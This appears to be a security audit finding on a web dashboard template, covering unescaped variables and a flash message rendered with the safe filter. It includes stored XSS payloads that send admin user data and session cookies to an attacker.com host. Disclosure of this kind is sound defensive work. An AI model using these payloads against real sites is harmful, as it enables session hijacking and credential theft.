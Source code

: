 
## Critical XSS Vulnerabilities

### CVE-FC-034: Unescaped Template Variables
**File:** [`templates/dashboard.html`](templates/dashboard.html:45)  
**Severity:** Critical  
**CVSS Score:** 9.6  
**OWASP Category:** A03 - Injection (XSS)

**Description:**  
Multiple template variables are rendered without proper escaping, enabling stored and reflected XSS attacks that can lead to session hijacking, credential theft, and complete account compromise.

**Vulnerable Template Code:**
```html
<!-- templates/dashboard.html -->
<div class="user-info">
    <h2>Welcome, {{ current_user.username }}!</h2>  <!-- Vulnerable -->
    <p>Groups: {{ current_user.groups }}</p>        <!-- Vulnerable -->
</div>

<div class="droplet-list">
    {% for droplet in droplets %}
    <div class="droplet-card">
        <h3>{{ droplet.name }}</h3>                 <!-- Vulnerable -->
        <p>{{ droplet.description }}</p>            <!-- Vulnerable -->
        <span class="status">{{ droplet.status }}</span>
    </div>
    {% endfor %}
</div>

<!-- Direct HTML injection -->
<div class="notifications">
    {{ flash_message|safe }}                        <!-- Extremely vulnerable -->
</div>
```

**Exploitation Scenarios:**

1. **Stored XSS via Username:**
```javascript
// Malicious username during registration
username: "<script>fetch('/api/admin/users').then(r=>r.json()).then(d=>fetch('http://attacker.com/steal',{method:'POST',body:JSON.stringify(d)}))</script>"

// Results in persistent XSS on dashboard
<h2>Welcome, <script>fetch('/api/admin/users')...</script>!</h2>
```

2. **Stored XSS via Droplet Name:**
```javascript
// Malicious droplet name
name: "<img src=x onerror='document.location=\"http://attacker.com/steal?cookie=\"+document.cookie'>"

// Executes when droplet is viewed
<h3><img src=x onerror='document.location="http://attacker.com/steal?cookie="+document.cookie'></h3>
```
